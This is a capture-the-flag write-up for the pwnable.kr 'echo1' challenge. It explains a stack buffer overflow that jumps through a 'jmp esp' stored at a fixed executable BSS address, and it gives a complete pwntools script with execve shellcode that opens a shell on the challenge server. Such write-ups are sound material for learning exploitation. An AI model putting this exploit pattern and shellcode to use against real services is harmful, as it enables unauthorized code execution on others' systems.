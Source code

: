 # 33 - echo1

## The Challenge

Pwn this echo service.

download : [http://pwnable.kr/bin/echo1](http://pwnable.kr/bin/echo1)

Running at : nc pwnable.kr 9010

## The Solution

By running the binary we learned that:

* We can input a name
* Three options are given to us
  * only the first option is implemented, and it's named bof \[lol\]
* We can exit the program and then decline. This behavior is more relevant to echo2, but if we exit after declining we get a nice print of the memory mapping. It teaches us that **ASLR is turned on**.

After further debugging we learned that:

* No other protection is turned on
* There is no overflow in the name input. The first four characters are stored in a variable named "id" in the BSS section. This section isn't affected by ASLR, and in this binary, it is executable too!
* Not very surprising, we can BOF in the "bof" input

The attack becomes clear now:

* The buffer overflow will be made of a buffer + address of "id" + shellcode
* "id" would contain 'jmp esp', thus redirect us to the shellcode

```text
#!/usr/bin/python3

from pwn import *

offset = b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ'
jmp_address = p64(0x6020a0)
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

p = remote('pwnable.kr', 9010)
p.sendline(b'\xFF\xE4') # jmp esp
p.sendline(b'1')
p.sendline(offset + jmp_address + shellcode)
p.recvrepeat(1)
p.interactive()
```

